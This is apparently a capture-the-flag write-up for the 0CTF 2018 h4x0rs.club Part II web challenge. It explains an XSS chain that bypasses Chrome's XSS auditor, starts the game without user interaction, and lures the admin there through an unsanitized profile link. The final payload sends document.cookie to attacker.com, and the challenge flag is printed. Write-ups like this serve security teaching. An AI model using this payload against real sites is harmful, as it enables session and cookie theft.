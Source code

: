 # 0CTF 2018: h4x0rs.club  - Part II

**Category:** Web
**Points:** 687
**Solves:** 6
**Description:**

> Get document.cookie of the admin: https://h4x0rs.club/game/

**Note:** This is an unintendend solution for the challenge.
## Write-up
 
### Finding the XSS

There is a XSS on `/game/javascripts/app.js` in the function responsible for checking if the player won or lost the game.

```
function b() {
       x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show();
       [...]
 }
```

The function above copies the html of an element with id `audiences` to an element with class `js-user` so by creating these elements using the injection on `/game/?msg=` we can achieve javascript execution.

Then, theoretically, by accessing `https://h4x0rs.club/game/?msg=<div id="audiences"><script>alert(1);</div></div></div><div class="js-user"></div>` and clicking on the play button an alert should pop up after around 15 seconds (the time it takes for the game to end).

But it doesn't, we are stopped by Chrome's XSS auditor which blocks the access to the page because it detected that a `script` tag on the URL was also reflected into the page.

We can bypass it by sending `https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--alert(1);</div></div></div><div class="js-user"></div>` which isn't executed by the browser, but when appended by JQuery through the `append` function will surprisingly ignore the `<!--`
and add our tag to the `js-user` div.

### Triggering the XSS

Finding the XSS isn't all that is needed to solve this challenge, given the user would have to click in the play button for the XSS to be triggered, and in this case, the admin will not interact in any way with the page after accessing it.

This is when the code on `/game/javascripts/client.js` comes in handy.

```
$( document ).ready(function() {
    CLIENT_GAME.init();
    [...]
    setTimeout(function(){$('.js-difficulty').children().click();}, 1000);
});
```

The code above will get all childrens of the elements with class `js-difficulty` and then click on them, exactly what we need to finish the chain.
By creating a div with class `js-difficulty` and inside it creating another div with class `js-start-button` we can start the game without any user interaction.

You can test it by accessing:

```https://h4x0rs.club/game/?msg=<div class="js-difficulty"><div class="js-start-button"></div>```

Combining these two we arrive at the final payload that will be sent to the admin:

```https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--location.href="http://attacker.com/?cookie="+document.cookie;</div></div></div><div class="js-user"></div><div class="js-difficulty"><div class="js-start-button"></div>```

### Sending the payload

The biography also isn't being properly sanitized, so you can set it to:

```<a href="http://attacker.com/redirect.html" id="report-btn"></a>```

Further, reporting your own profile to the admin with the hash `report` added to it will make the admin click on the link and be redirected to your website, because the code below is present in the page:

```
if(location.hash.slice(1) == 'report'){
       document.getElementById('report-btn').click();
}
```

Then you make `redirect.html` redirect the admin again to your final payload, which will start the game and trigger the XSS, sending his session (and the flag) back to you.

## Flag

```flag{postman_1n_the_middl3}```

## Contact

If you have any questions feel free to contanct me on [@lbherrera_](https://twitter.com/lbherrera_)
